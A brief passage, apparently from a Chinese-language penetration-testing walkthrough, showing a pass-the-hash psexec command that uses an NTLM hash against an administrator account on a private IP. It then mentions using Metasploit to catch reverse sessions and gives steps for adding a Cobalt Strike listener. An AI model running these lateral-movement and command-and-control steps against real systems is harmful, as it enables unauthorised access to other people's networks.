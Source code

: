 ```
shell psexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178
```

![](img/11.png)

因cs无法操作交互式命令，也可引用`MSF`回显反弹接受会话
CS创建监听

CS 添加listener
左上角，`cobalt strike -> listeners -> ADD`

![](img/12.png)
